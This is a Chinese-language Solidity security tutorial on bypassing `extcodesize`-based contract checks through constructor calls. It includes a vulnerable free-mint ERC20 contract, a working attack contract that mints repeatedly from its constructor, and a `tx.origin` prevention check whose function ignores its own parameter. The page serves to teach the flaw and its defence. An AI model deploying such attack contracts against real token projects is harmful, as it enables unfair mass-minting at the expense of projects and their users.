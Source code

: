 ```yaml
---
title: 绕过智能合约检测
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - contract-check
  - extcodesize
  - bytecode
  - eoa
  - free-mint
  - solidity
  - constructor-exploit
  - prevention
tags:
  - Constructor
  - Security
  - 智能合约
---
```


许多免费铸造的项目使用 `isContract()` 方法限制对外部账户（EOAs）的访问以及限制智能合约的交互。 此方法使用 `extcodesize` 来决定地址运行时 `bytecode` 长度。 如果大于零，则被视为智能合约；否则，它被视为EOA。

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

然而，由于在智能合约创建期间，运行时`bytecode`尚未存储在地址上，所以`bytecode`的长度为零，所以存在潜在的漏洞。 如果我们将逻辑存放在构造器中，我们可以借此绕过`isContract()`检查。

**利用漏洞的示例**

在下面的例子中，`FreemintERC20`合同使用`checkContract()`函数来防止智能合约执行它的`mintTokens()`函数，以防止自动大量铸造。 每次调用`mintTokens()`都会铸造100个通证。

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们创建一个智能合约用于攻击，并在构造器中多次调用`mintTokens()`代码：

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

在这个智能合约中，通过调用构造函数中的`mintTokens()`方法可以绕过`isContract()`检查，并铸造通证。 状态变量 `detectedAsContract` 在构造器中将被设置为`false`。 部署后，`runtime bytecode` 存储在智能合约中，并且 `extdesize > 0` , 因此当调用 `mintTokens()`时，`checkContract()` 会成功地阻止铸造。

**预防措施**

我们可以使用 `(tx.origin == msg.sender)` 来确定调用者是否是智能合约。 如果调用者是EOA，那么`tx.origin`和`msg.sender`将是相等的；如果他们不相等，则调用者是智能合约。

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```